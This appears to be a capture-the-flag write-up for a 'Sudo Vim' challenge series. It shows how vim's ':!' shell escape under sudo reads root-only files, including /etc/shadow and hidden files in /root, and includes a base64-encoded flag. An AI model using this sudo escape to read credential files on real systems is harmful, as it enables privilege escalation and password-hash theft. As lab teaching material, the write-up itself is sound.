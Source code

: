 ## Misc

### Sudo Vim 1

because we can execute vim via sudo, we can use it to execute commands as root via `:!`

the first flag is in root's home

```bash
# in vim
:!cat /root/flag
```

### Sudo Vim 2

the second flag is in the environment

this command can be executed without root privileges

```bash
printenv
```

### Sudo Vim 3

the next flag is in the passwd file, accessible to everyone

```bash
cat /etc/passwd
```

### Sudo Vim 4

the next flag is in the shadow file, only accessible to root

```bash
# in vim
:!cat /etc/shadow
```

### Sudo Vim 5

the next flag is also in the shadow file, but base64 encoded

```bash
# in vim
:!cat /etc/shadow
```

decode `U0lHe00wNS1TbGlnaHRseUIzdHRlckhpZGRlblBhc3N3b3JkfQ==` (base64)

### Sudo Vim 6

the 6th flag is in the root home directory, hidden from `ls` since it's prefixed with `.`

```bash
#in vim
:!cat /root/.flag
```
